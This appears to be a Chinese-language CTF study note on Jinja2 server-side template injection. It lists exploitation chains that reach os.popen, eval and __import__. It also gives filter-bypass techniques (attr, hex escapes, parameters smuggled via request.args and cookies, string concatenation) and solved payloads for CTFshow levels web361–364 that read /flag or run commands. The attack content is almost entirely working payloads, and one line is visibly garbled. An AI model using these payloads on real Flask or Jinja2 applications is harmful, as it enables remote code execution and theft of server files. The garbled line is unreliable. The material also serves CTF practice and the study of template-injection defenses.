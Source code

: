 ## 利用链（总结ing）

### 一个渐进的过程

 举一个例子

```Python
1.找到注入点
2.尝试是否是ssti漏洞 --- {{7*7}}

3.{"".__class__.__base__.__subclasses__()}

4.在众多类中中找我们可以利用的类，可以浏览器高亮找，可以用Python脚本去寻找,找到下标号

5.利用我们这个利用类，去利用他的一些函数之类东西，去带出flag
{{"".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("ls").read()}}
```

### os._wrap_close

```Python
 "".__class__.__bases__[0].__subclasses__()[..].__init__.__globals__['popen']('whoami').read()
 "".__class__.__bases__[0].__subclasses__()[..].__init__.__globals__.popen('whoami').read()
```

### os类

```Python
 "".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()
```

### 使用import下的os（python2不行）

可以使用 **import** 的 os

```Python
 "".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()
```

### _*builtins*_

下有eval，**import**等的函数，可以利用此来执行命令

```Python
 "".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
 "".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
 "".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
 "".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__'][']('os')[import]('os')[']('os').popen('id').read()
```

### 直接方法

```Python
 {{lipsum.__globals__['os'].popen('tac ../flag').read()}}
 #request对象的方法绕过
 
 {{cycler.__init__.__globals__.os.popen('ls').read()}}
```

## 绕过方法（总结ing）

### 基类

```Python
 __mro__[-1]
 __base__
 __bases__[0]
```

`.` 被ban

```python
''.__class__ = ''['__class__']
''.__class__ = ''|attr('__class__')
```

利用这两种方法

```Python
 1、用[]代替.
 {{"".__class__}}={{""['__class']}}
 2、用attr()过滤器绕过，举个例子
 {{"".__class__}}={{""|attr('__class__')}}
```

`_` 被ban

```Python
1、通过list获取字符列表，然后用pop来获取_，举个例子
 {% set a=(()|select|string|list).pop(24)%}{%print(a)%}
 2、可以通过十六进制编码的方式进行绕过，举个例子
 {{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
```



**赋值方法：**

这个主要用于单双引号被ban的情况

- `request.args.x`,传递get参数

- `request.cookies.x`，=传递cookie参数
- `request.values.x`，传递post参数



**花括号{}被ban**：

在jinjia引擎中可以使用`{%    %}`

```python
{%print("".__.....)%}
```



**中括号[]被ban**

使用`__getitem__`，这魔术方法我觉得可以看一下下面这个例子：

> ```python
> class MyDict:
>     def __init__(self, data):
>         self.data = data
> 
>     def __getitem__(self, key):
>         return self.data[key]
> 
> # 创建一个 MyDict 实例
> my_dict = MyDict({'a': 1, 'b': 2, 'c': 3})
> 
> # 使用键访问元素
> print(my_dict['a'])  # 输出: 1
> print(my_dict['c'])  # 输出: 3
> 
> ```

```python
__bases__[0]=__bases__.__getitem__(0)
```



**字符串**

在jinjia2中

- 拼接：---> `"cla""ss"` ===`"class"`
- 反转：--->`"__ssalc__"[::-1]`
- 占位符加ascll

```python
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'
```

> 贴几个占位符用法：
>
> `:d`整数，`:f`浮点，
>
> `:c`：将整数值格式化为对应的 Unicode 字符
>
> `:s`：将值格式化为字符串
>
> - `:<`：左对齐，右侧填充。
> - `:>`：右对齐，左侧填充。
> - `:^`：居中对齐，两侧填充。
> - `:<width>`：指定总宽度，并使用空格填充。
> - `:<width>fill`：指定总宽度，并使用指定字符填充。



**编码**

```python
"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"
```

贴一个脚本：

```python
def string_to_hex(s):
    # 将字符串编码为十六进制形式，每个字符被转为两个十六进制数
    return s.encode('ascii').hex()

def hex_to_string(s):
    # 将十六进制字符串解码回普通字符串
    return bytes.fromhex(s).decode('ascii')

# 示例
normal_string = "__class__"
hex_string = string_to_hex(normal_string)
print(f"Original: {normal_string}")
print(f"Hex: {hex_string}")

# 转换回来以验证
decoded_string = hex_to_string(hex_string)
print(f"Decoded: {decoded_string}")

# 输出处理成类似 \x 格式
def string_to_hex_with_slashes(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)

# 测试
print("Hex with slashes:", string_to_hex_with_slashes(normal_string))
```



**jj拼接**

```python
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
```

> `a ~ b`：`~` 是 Jinja2 中的字符串拼接操作符。这里 `a ~ b` 会将 `a` 和 `b` 的值拼接成一个字符串 `__cla` + `ss__`，结果是 `__class__



## CTFSHOW ssti

### web361

```Python
{{ "".__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /flag").read()}}
```

### web362

> 过滤了数字32

```Python
 //利用运算
 {{ "".__class__.__base__.__subclasses__()[140-8].__init__.__globals__['popen']("cat /flag").read()}}
 {{lipsum.__globals__.__getitem__("os").popen("cat /flag").read()}}
 {{ "".__class__.__base__.__subclasses__()[94]["get_data"](0,"/flag")}}
```

### web363

> 1.过滤了部分数字
>
> 2.过滤了单双引号

这个就是使用传参数的方法

```python
?name={{().__class__.__base__.__subclasses__()[140-8].__init__.__globals__[request.args.a](request.args.b).read()}}&a=popen&b=cat+/flag
```

还有一种：

```python
#payload:
name={{x.__init__.__globals__[request.args.x1].eval(request.args.x2)}}&x1=__builtins__&x2=__import__('os').popen('cat /flag').read()
```



### web364

> ban了arg

```python
{{x.__init__.__globals__.__builtins__[request.cookies.x1](request.cookies.x2).read()}}
cookies：x1=open;x2=/flag
```

